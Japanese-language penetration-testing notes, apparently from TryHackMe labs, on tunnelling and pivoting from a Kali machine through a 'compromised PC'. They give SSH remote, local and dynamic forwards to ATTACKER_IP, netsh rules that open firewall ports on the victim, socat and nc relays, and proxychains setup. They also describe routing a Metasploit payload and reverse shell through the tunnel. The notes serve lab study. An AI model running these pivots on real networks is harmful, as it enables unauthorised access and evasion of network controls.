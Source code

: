 # トンネリング

## 準備

```shell
# kali上にトンネル専用のユーザー作成、パスワード設定
sudo useradd -m -s /usr/sbin/nologin tunnel
sudo passwd tunnel
sudo nano /etc/ssh/sshd_config
```

ポートフォワード専用設定

```text
Match User tunnel
    PermitOpen any
    ForceCommand echo 'This account can only be used for port forwarding'
    AllowTcpForwarding yes
    X11Forwarding no
    PermitTTY no
```

```shell
# SSH リスタート
sudo systemctl restart ssh
```

### 後始末

```shell
sudo userdel tunnel
```

## ターゲットのローカル Web サーバーに接続

kali からターゲットに SSH 接続でき、ターゲット上のローカル稼働している Web サーバーにアクセスするケース。

```shell
ssh -L 80:localhost:80 <user>@<target-ip>
```

## RDP ポート転送

kali からはターゲットの RDP にアクセスできないが、侵害済の PC からはアクセスでき、かつ侵害済 PC から kali への SSH 接続ができるケース。

```shell
# 侵害済のPCで実行。<kali-port>:<target-ip>:<target-port>
ssh tunneluser@<kali-ip> -R 3389:<target-ip>:3389 -N
```

kali 上でローカルに向けて RDP 接続すると、ターゲットに転送される

```shell
xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

同様に、このようにすると HTTP トンネルになる

```shell
ssh -R 8080:172.20.0.120:80 user@IP1
```

```shell
# kali上から target上の6666ポートにアクセス
# -N : コマンド実行なしでポートフォワードのみ行う
ssh -N -R 6666:localhost:6666 tunnel@10.2.22.182
```

## ローカルポート転送

ターゲットから kali に接続できないが、kali 上のサービスに接続させたいケース。

```shell
# 侵害済のPCで実行
ssh tunneluser@<kali-ip> -L *:80:127.0.0.1:80 -N

# FWルール変更（要管理者）
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

ターゲットから次のように kali のサービスに接続できる

```text
http://<侵害済PCのIP>:80
```

## 複合トンネリング

```shell
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

- kali のローカル 8888 に HTTP リクエストすると、thmdc.za.tryhackme.com:80 に転送される
- 侵害済 PC の 6666 ポートでのリッスンは、kali の 6666 ポートに転送される
- 侵害済 PC の 7878 ポートでのリッスンは、kali の 7878 ポートに転送される

metasploit のエクスプロイトを想定。Web サーバーに HTTP リクエスト、Web サーバーからペイロードのリクエスト、Web サーバーからリバースシェルの接続。

## socat

### RDP 転送

```shell
# kali 上ではなく、侵害済 PC 上にポートを開く
socat TCP4-LISTEN:3389,fork TCP4:<target-ip>:3389

# FWルールが必要
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

### HTTP 転送

```shell
socat TCP4-LISTEN:80,fork TCP4:<kali-ip>:80
```

## 動的ポート転送

プロキシチェーンを使って、任意のコマンドでポート転送する。nmap 等は正しく動作しない可能性がある。

```shell
# 侵害済PC
ssh tunneluser@1.1.1.1 -R 9050 -N

# kali側
proxychains curl http://pxeboot.za.tryhackme.com
```

/etc/proxychains4.conf で指定されているポートと一致させる必要がある

```text
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

## nc

FW で 25 ポートは通らないが、443 ポートは通る場合

```shell
sudo nc -lvnp 443 -c "nc <target-ip> 25"
```

## Firefox

標準の HTTP ポート以外はエラーになってしまうので、ポート制限を解除する

```
about:config
network.security.ports.banned.override
# string
1-9999
```
